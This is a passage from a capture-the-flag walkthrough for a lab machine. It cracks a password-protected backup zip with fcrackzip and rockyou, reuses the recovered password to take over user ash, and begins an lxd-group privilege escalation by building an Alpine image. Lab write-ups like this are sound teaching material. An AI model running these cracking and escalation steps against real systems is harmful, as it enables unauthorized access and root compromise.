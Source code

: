 But upon unzipping it, we find it is password protected. From your attacking machine, download it and run it through either `fcrackzip` or `zip2john` then `john` with the `rockyou` wordlist file.

```
$ wget -q http://10.10.10.194/files/16162020_backup.zip
$ fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon1                                 

PASSWORD FOUND!!!!: pw == admin@it

```

The zip is successfully cracked and, as luck would have it, the user `ash` has re-used their password to encrypt the zip file. Log into Ash's account with `su ash`, input the password `admin@it` and find the user flag at `cat /home/ash/user.txt`

 
## --------<br>**System Flag**<br>--------

Using the `id` command, we see that `ash` is a member of the `lxd` group. [LXD](https://linuxcontainers.org/lxd/) is essentially a container manager, which means that the user `ash` can create and manage Linux Containers. This is a possible privilege escalation as LXD is a system level process. It is documented [here](https://www.exploit-db.com/exploits/46978).

As described in the exploit, on your attacking machine, download the alpine-linux-builder and build it as root. (NOTE: If you have trouble, switch to `root`'s home directory and build it there)

```
root@kali:~# wget -q https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

root@kali:~# bash build-alpine 

Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
Downloading apk-tools-static-2.10.5-r1.apk
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://mirror.neostrada.nl/alpine/v3.12/main
fetch http://mirror.neostrada.nl/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r6)
(2/19) Installing busybox (1.31.1-r15)
Executing busybox-1.31.1-r15.post-install
.
. (truncated)
.
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12_alpha20200428-r0)
Executing busybox-1.31.1-r15.trigger
OK: 8 MiB in 19 packages
```
Next, download the script from exploit DB and make sure to remove any `\r` characters:
